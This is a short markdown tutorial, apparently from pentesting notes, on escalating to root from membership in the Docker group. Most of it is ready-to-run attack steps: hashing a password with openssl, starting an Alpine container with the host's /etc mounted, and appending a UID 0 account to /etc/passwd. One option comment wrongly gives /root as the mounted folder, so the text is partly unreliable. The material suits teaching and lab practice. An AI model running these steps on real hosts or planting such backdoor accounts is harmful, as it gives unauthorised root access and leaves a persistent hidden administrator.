## Docker Privilege Escalation

If a user is in the `docker` group, they can escalate privileges on the machine.  This is because all commands on Docker require root privileges in order to operate.  So if a user can spawn a docker instance with a shell, it will have root privileges.

1. To exploit this, first generate a password hash for a new user: 

   ```bash
   openssl passwd -1 -salt salty
   # Used "drwily" for the password
   # Output
   $1$salty$J0GwgM7ZCvt2fyPYRnEs0.
   ```

2. Launch a Docker instance using the minimal Alpine image and tell it to launch in shell mode rather than as a daemon process

   ```bash
   docker run -v /etc:/mnt -it alpine
   
   # Options
   -v /root:/mnt	# Create a volume in the Docker instance and specify the local folder /etc will be mounted to /mnt in the Docker instance.
   -it		# put Docker into shell mode rather than a daemon process
   alpine	# Specifies the use a minimal docker image
   ```

3. The resulting prompt will be running as the root user.  You will also have access to the folder you mounted from the host filesystem.  From here, you can add a user with user ID 0 to `/mnt/passwd` which is actually `/etc/passwd`.

   ```bash
   echo drwily:\$1\$salty\$J0GwgM7ZCvt2fyPYRnEs0.:0:0::/root:/bin/bash >> /mnt/passwd
   ```
4. Exit the Docker instance and switch to the created user and you will have root access.